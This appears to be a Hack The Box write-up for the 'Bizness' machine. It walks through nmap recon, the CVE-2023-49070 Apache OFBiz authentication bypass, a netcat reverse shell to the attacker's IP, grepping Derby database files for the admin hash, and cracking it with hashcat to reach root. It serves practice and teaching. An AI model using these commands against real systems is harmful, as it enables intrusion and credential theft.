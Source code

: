 ```yaml
---
title: Bizness
tags:
  - Linux
  - Apache
  - Brute-Forcing
---
```

![](Pasted%20image%2020240501195939.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.59.31 headless.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 18:33 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.041s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  https
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: BizNess Incorporated
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
39467/tcp open  unknown
```

Then I went to take a look to the webpage and its code:

![](Pasted%20image%2020240501200309.png)

I did not found anything into it, so I decided to perform a `dirsearch` to the web
- More info in [dirsearch 📁](/notes/Tools/dirsearch.md)

![](Pasted%20image%2020240501200559.png)

I found the direction `/control/login`, which landed me into a login page:

![](Pasted%20image%2020240501200706.png)

> Obviously the `admin:admin` didn't work :<

After analyzing the petition with Burp and obtained nothing, I decided to search for `Apache OFBiz` and discovered the **CVE-2023-49070**

## Weaponization

Consulting in Github I found [Apache OFBiz Authentication Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/tree/master?tab=readme-ov-file) exploit, which I cloned and executed:

## Exploitation


```shell
python3 exploit.py --url https://bizness.htb                                         
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

Now I try to obtain a shell and stabylize it:
- More info in [Reverse shells 👾](/notes/reverse_shells.md)

```shell
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.14.110 666'
```

And I got a shell:

```shell
└─$ nc -lvp 777
listening on [any] 777 ...
connect to [10.10.14.110] from bizness.htb [10.10.11.252] 60690
python3 -c "import pty; pty.spawn('/bin/bash')"
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
export TERM=xterm
ofbiz@bizness:/opt/ofbiz$ ^Z
zsh: suspended  nc -lvp 777
                                                                                                                    
┌──(gitblanc㉿playbook)-[~/HackTheBox]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 777
                             ls
APACHE2_HEADER  DOCKER.md                INSTALL              README.adoc
applications    docs                     lib                  runtime
build           framework                LICENSE              SECURITY.md
build.gradle    gradle                   linpeas.sh           settings.gradle
common.gradle   gradle.properties        NOTICE               themes
config          gradlew                  npm-shrinkwrap.json  VERSION
docker          gradlew.bat              OPTIONAL_LIBRARIES
Dockerfile      init-gradle-wrapper.bat  plugins
ofbiz@bizness:/opt/ofbiz$
```

### User flag

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt 
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Now, as I know that Apache OFBiz is running, i read a little their [docs](https://cwiki.apache.org/confluence/display/OFBIZ/Home), and find out that they use a Derby database, so I searched for it:

```shell
find / -type d -iname "derby" 2> /dev/null

/home/ofbiz/.gradle/caches/modules-2/files-2.1/org.apache.derby/derby
/home/ofbiz/.gradle/caches/modules-2/metadata-2.69/descriptors/org.apache.derby/derby
/opt/ofbiz/runtime/data/derby
```

I found a binary and a lot of `.dat` files on the `/seg0` directory, so I tried to find the admin password by using the following command:

```shell
find *.dat | xargs grep -a -i "currentPassword="
c54d0.dat:  
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

> It also works by doing `strings dir.txt | grep SHA`, but you should have known previously the format of the hash

As I didn't know the hashing function, I went to see the source code of [Apache OFBiz](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) and found the hash function that first performed a hex Encoding and then a base64 encoding:

![](Pasted%20image%2020240501203114.png)

![](Pasted%20image%2020240501203204.png)

Then, after knowing this I decoded it on [Cyberchef](https://cyberchef.org/)

![](Pasted%20image%2020240501203313.png)

Now I did brute force to it using **Hashcat** (using `d` as the salt):
- For more info check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -a 0 -m 120 b8fd3f41a541a435857a8f3e751cc3a91c174362:d /usr/share/wordlists/rockyou.txt --show

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

Now I logged as root and got the flag:

```shell
su root

cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

==Machine pwned==
